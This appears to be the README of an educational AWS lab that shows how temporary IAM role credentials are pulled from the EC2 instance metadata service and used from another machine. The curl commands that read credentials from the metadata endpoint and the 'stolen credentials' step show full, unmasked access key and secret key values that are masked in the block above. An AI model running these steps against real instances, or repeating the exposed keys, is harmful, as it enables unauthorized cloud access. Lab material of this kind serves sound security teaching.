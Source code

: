 ## Documentation

| Document | Description | 
|----------|-------------|
| [**Quick Reference**](docs/quick-reference.md) | **Essential commands for rapid demonstration execution** |
| [Infrastructure Analysis](docs/infrastructure-analysis.md) | Detailed CloudFormation template breakdown |
| [Security Theory](docs/security-theory.md) | IAM role invalidation concepts |
| [Demonstration Guide](docs/demonstration-guide.md) | Complete walkthrough with evidence |
| [Demonstration Evidence](docs/demonstration_evidence.md) | Forensic documentation with screenshots |
| [Vulnerability Analysis](docs/vulnerability_analysis.md) | Security assessment and risk analysis |
| [Lab Guide](docs/lab_guide.md) | Educational exercises and assessments |
| [Attribution](docs/attribution.md) | Credits to Adrian Cantrill |

## Attack Simulation Results

### Credential Extraction (Successful)
```bash
# Extract role name from instance metadata
$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

A4L-InstanceRole-TDHLFluqhnhA

# Extract temporary credentials
$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/A4L-InstanceRole-TDHLFluqhnhA
{
  "AccessKeyId": "ASIA****************G3WA",
  "SecretAccessKey": "bMJW************************************k+je", 
  "Token": "IQoJb3JpZ2luX2VjEMr//////////wEaCXVzLWVhc3QtMSJH...",
  "Expiration": "2025-07-22T07:50:38Z"
}
```

### Local Credential Usage (Successful)

```bash
# Configure stolen credentials on Ubuntu system
export AWS_ACCESS_KEY_ID=ASIAZDHYX3ENS3KXG3WA
export AWS_SECRET_ACCESS_KEY=bMJWZGRd4bmetp1XAJHWyOYl3zeFZ+UAI2ZNk+je  
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjEMr//////////wEaCXVzLWVhc3QtMSJH...

# Test unauthorized access
$ aws s3 ls
2025-05-01 21:34:43 cf-templates-nu92qc9cc5d4-us-east-1

$ aws ec2 describe-instances --region us-east-1 --output table
# Successfully lists all EC2 instances
```
